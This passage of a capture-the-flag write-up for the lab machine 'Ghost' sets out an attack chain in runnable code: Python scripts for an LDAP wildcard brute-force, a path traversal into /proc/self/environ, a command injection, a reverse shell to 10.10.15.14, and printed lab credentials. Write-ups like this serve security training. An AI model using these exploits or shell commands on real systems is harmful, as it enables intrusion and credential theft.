

Capture the Next.js multipart POST in Burp. The important pieces to replay are the `Next-Action` header and the `$ACTION_*` / `ldap-*` form parts:



**Why an oracle works:** a successful `*` login and a definitely-wrong secret produce different response lengths (and hashes). Prefix the unknown token with one guessed character and append `*` again (`a*`, `b*`, …). Only the correct prefix still matches LDAP and returns the “good” length — so you recover the token one character at a time.

Calibrate good vs bad:

```python
import requests
import hashlib

BASE = "http://intranet.ghost.htb:8008"
URL = BASE + "/login"

s = requests.Session()
headers = {
    "Next-Action": "c471eb076ccac91d6f828b671795550fd5925940",
    "Accept": "text/x-component",
    "Origin": BASE,
    "Referer": BASE + "/login",
    "User-Agent": "Mozilla/5.0",
}

def attempt(secret):
    files = [
        ("1_$ACTION_REF_1", (None, "")),
        ("1_$ACTION_1:0", (None, '{"id":"c471eb076ccac91d6f828b671795550fd5925940","bound":"$@1"}')),
        ("1_$ACTION_1:1", (None, "[{}]")),
        ("1_$ACTION_KEY", (None, "k2982904007")),
        ("1_ldap-username", (None, "gitea_temp_principal")),
        ("1_ldap-secret", (None, secret)),
        ("0", (None, '[{},"$K1"]')),
    ]
    return s.post(URL, headers=headers, files=files, allow_redirects=False, timeout=10)

def signature(r):
    return {
        "status": r.status_code,
        "length": len(r.content),
        "location": r.headers.get("Location"),
        "cookie": r.headers.get("Set-Cookie"),
        "hash": hashlib.md5(r.content).hexdigest(),
    }

s.get(BASE + "/login")
print("[+] GOOD (*)", signature(attempt("*")))
print("[-] BAD    ", signature(attempt("THIS_SHOULD_NEVER_MATCH_93847293847")))
```



Automate the walk:

```python
import requests
import string

BASE = "http://intranet.ghost.htb:8008"
URL = BASE + "/login"
USERNAME = "gitea_temp_principal"

s = requests.Session()
headers = {
    "Next-Action": "c471eb076ccac91d6f828b671795550fd5925940",
    "Accept": "text/x-component",
    "Origin": BASE,
    "Referer": BASE + "/login",
    "User-Agent": "Mozilla/5.0",
}

def attempt(secret):
    files = [
        ("1_$ACTION_REF_1", (None, "")),
        ("1_$ACTION_1:0", (None, '{"id":"c471eb076ccac91d6f828b671795550fd5925940","bound":"$@1"}')),
        ("1_$ACTION_1:1", (None, "[{}]")),
        ("1_$ACTION_KEY", (None, "k2982904007")),
        ("1_ldap-username", (None, USERNAME)),
        ("1_ldap-secret", (None, secret)),
        ("0", (None, '[{},"$K1"]')),
    ]
    return s.post(URL, headers=headers, files=files, allow_redirects=False, timeout=10)

s.get(BASE + "/login")
GOOD_LEN = len(attempt("*").content)
charset = string.ascii_letters + string.digits + "_-@!.$"
known = ""

while True:
    found = False
    for c in charset:
        candidate = known + c + "*"
        if len(attempt(candidate).content) == GOOD_LEN:
            known += c
            print(f"[+] Found: {known}")
            found = True
            break
    if not found:
        print(f"[+] Token candidate: {known}")
        break
```



**Recovered:** `gitea_temp_principal` intranet token `szrr8kpc3z6onlqf`.

---
## 3. Foothold

### 3.1 Gitea access and source review

Log into `http://gitea.ghost.htb:8008` with `gitea_temp_principal` / `szrr8kpc3z6onlqf`. The private `ghost-dev` org exposes two repos — `blog` (JS / Ghost customisation) and `intranet` (Rust / Rocket) — plus members such as `cassandra.shelton`.

```bash
# Browser login to Gitea, then clone both repos with the same credentials
```







The **blog README is the missing Content API key**. It documents the intentional Ghost patch in `posts-public.js`, the shared `DEV_INTRANET_KEY`, and publishes the public Content API key `a5af628828958c976a3b6cc81a` (claimed “safe” because it only reads public posts — but combined with the LFI sink it is enough).

Search the cloned trees and open the interesting files:

```bash
rg -n --hidden -S 'DEV_INTRANET_KEY|api-dev|API_KEY|apiKey|request\(' .
```







**Decision map from source:**

| Finding | Why it matters |
|---|---|
| `DevGuard` checks header `X-DEV-INTRANET-KEY` against env `DEV_INTRANET_KEY` | Need the live env value; compose only has `"redacted"` |
| `main.rs` mounts `/api-dev` → `scan::scan` | Dev endpoint is exposed in production |
| `scan.rs` runs `bash -c "intranet_url_check {url}"` | Classic command injection on `url` |
| `posts-public.js` concatenates `extra` into `/var/lib/ghost/extra/` + `fs.readFileSync` | Path traversal / LFI once the Content API key is known |



---
### 3.2 LFI → DEV_INTRANET_KEY

Use the README Content API key with the patched `extra` parameter to read the Ghost process environment. Traversal out of `/var/lib/ghost/extra/` into `/proc/self/environ` dumps `DEV_INTRANET_KEY` in cleartext.

```bash
curl -s 'http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&limit=1&extra=../../../../proc/self/environ'
```



**Recovered:** `DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe`

---
### 3.3 Command injection on `/api-dev/scan`

With the header set, POST a JSON body whose `url` closes the intended command and runs ours. `id` confirms **root inside the intranet container**; a follow-up probe for `/root/root.txt` fails (this is not the box flag path — stay focused on pivoting).

```bash
curl -s -X POST 'http://intranet.ghost.htb:8008/api-dev/scan' \
  -H 'Content-Type: application/json' \
  -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' \
  -d '{"url":"; id"}' | jq
```




Upgrade to an interactive shell:

```bash
rlwrap nc -lvnp 443

curl -s -X POST 'http://intranet.ghost.htb:8008/api-dev/scan' \
  -H 'Content-Type: application/json' \
  -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' \
  -d '{"url":"; bash -c '"'"'bash -i >& /dev/tcp/10.10.15.14/443 0>&1'"'"'"}'
```




Container recon (`hostname`, `/etc/hosts`, `resolv.conf`) confirms Docker and an entry for `windows-host` at `10.0.0.254` — useful orientation, but the high-value secrets are in the process environment.

---
### 3.4 Domain credentials from container env

`env` inside `/app` is the intranet service’s LDAP bind configuration. That is a real domain account, not just an app secret.

```bash
env | grep -E 'LDAP_|DEV_|JWT_'
```

